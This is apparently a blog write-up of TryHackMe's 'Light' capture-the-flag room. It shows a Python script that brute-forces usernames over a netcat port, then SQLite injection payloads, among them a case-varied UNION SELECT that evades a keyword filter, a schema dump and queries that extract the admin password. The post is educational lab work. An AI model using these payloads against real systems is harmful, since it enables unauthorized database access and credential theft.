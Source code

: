 ```yaml
---
layout: post
title: "TryHackMe Light Walkthrough - SQL Injection Challenge"
description: "Complete step-by-step walkthrough for TryHackMe's Light room featuring SQLite injection techniques, database enumeration, and admin credential extraction. Perfect for beginners learning SQL injection fundamentals."
date: 2025-08-15 10:00:00 +0000
categories: [Cybersecurity, Writeups, Tryhackme]
tags: [tryhackme, thm, sql-injection, sqlite, database, enumeration, ctf, easy]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1737140605838
sitemap:
  priority: 0.8
  changefreq: monthly
---
```



# TryHackMe Light Walkthrough
Link to the Room : https://tryhackme.com/room/lightroom

```
I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on **port 1337**. You can connect to it using `nc MACHINE-IP 1337`  
You can use the username `smokey` in order to get started.
```
Lets start the machine and wait for 2-3 minutes, let the machine get fully functional.

`Q1 What is the admin username?`

As usual running a full port scan for identifying potential entry points.
`nmap -p- -T4 MACHINE-IP -vv`
![Nmap scan results](/assets/img/Pasted image 20250816001828.png)

Meanwhile lets try connecting to the port 1337
`nc MACHINE-IP 1337`
Lets try the username provided `smokey`
![Testing with username smokey](/assets/img/Pasted image 20250816002133.png)
Alright!

So, I guess we can try brute-forcing a wordlist of usernames, but we cannot use ffuf...
So,
I took this script from ChatGPT, and modified it little to make it work.
```python
import socket

target_ip = "10.201.15.128"  # change this
target_port = 1337
wordlist = "SecLists/Usernames/cirt-default-usernames.txt"  # your username list

with open(wordlist, "r") as f:
    usernames = [u.strip() for u in f if u.strip()]

for user in usernames:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))

    # Receive initial banner / prompt
    banner = s.recv(1024).decode()
    print(banner.strip())

    u = s.recv(1024).decode()
    print(u.strip())

    # Send username
    s.send((user + "\n").encode())

    # Receive response
    response = s.recv(1024).decode()
    print(f"[{user}] -> {response.strip()}")

    s.close()

```

I tried few wordlists but didn't find anything.

Got back to the nmap scan and LOL!, its gonna take forever so its not the way in for sure!
![Nmap scan taking too long](/assets/img/Pasted image 20250816003201.png)

What else can we do? Found no `http` pages, where can we even use the credentials we've got earlier?
Lets try to change the approach.

Lets try putting in some random input, my mind is getting a little idea of where it is going _maybe_.
![Testing random input](/assets/img/Pasted image 20250816003925.png)

Its more of an Injection vulnerability I see
Its been a long I have not dealt with a SQLi, now quickly digging through my notes for revising required methods.

From the responses below
![SQL injection response](/assets/img/Pasted image 20250816004841.png)

I can imagine of a SQL query
`select pass from users where user='<input>' limit 30`

Now we'll try creating some SQL payloads based on the payloads I already have in my notes.
`'union select 1'`
![Union select blocked](/assets/img/Pasted image 20250816005530.png)

Okhayy!
They might be blocking some keywords most probably as an easy way out. 
Here might be a logic error lets try `'UnIOn sElecT 1'`
![Bypassing keyword filter](/assets/img/Pasted image 20250816005739.png)

as a developer I would also blacklist these keywords as its an easy fix(not a fix really). Laziness is a problem frr.
I love these kinda logic based errors!

Lets start enumerating.
`'Union Select @@version'`
Didn't work maybe some other database!

Refer this https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration

This one worked
`'Union Select sqlite_version()'`
Its sqlite database version: 3.31.1
![SQLite version](/assets/img/Pasted image 20250816010644.png)

Using the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) Repository for reference!

`'Union Select sql from sqlite_master'`
![Database schema](/assets/img/Pasted image 20250816010906.png)

Now we know the table name, column names.
Enough to craft useful payloads.

> You can use [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-enumeration) and suitable LLM for crafting payloads

`'Union Select username from admintable where id='1`
![Admin username](/assets/img/Pasted image 20250816011619.png)

If needed we could've dumped all but in this case we don't need the whole database.

![Question 1 answer](/assets/img/Pasted image 20250816011809.png)

`Q2 What is the password to the username mentioned in question 1?`
`'Union Select password from admintable where username='<admin-user>`
![Admin password](/assets/img/Pasted image 20250816012001.png)

![Question 2 answer](/assets/img/Pasted image 20250816012439.png)

`Q3 What is the flag?`
Till now you could've figured it out, we have already got the id for the user flag, so most probably its password will be the final flag.
Little modifications to the previous payload will get you the flag.

![Question 3 flag](/assets/img/Pasted image 20250816012516.png)




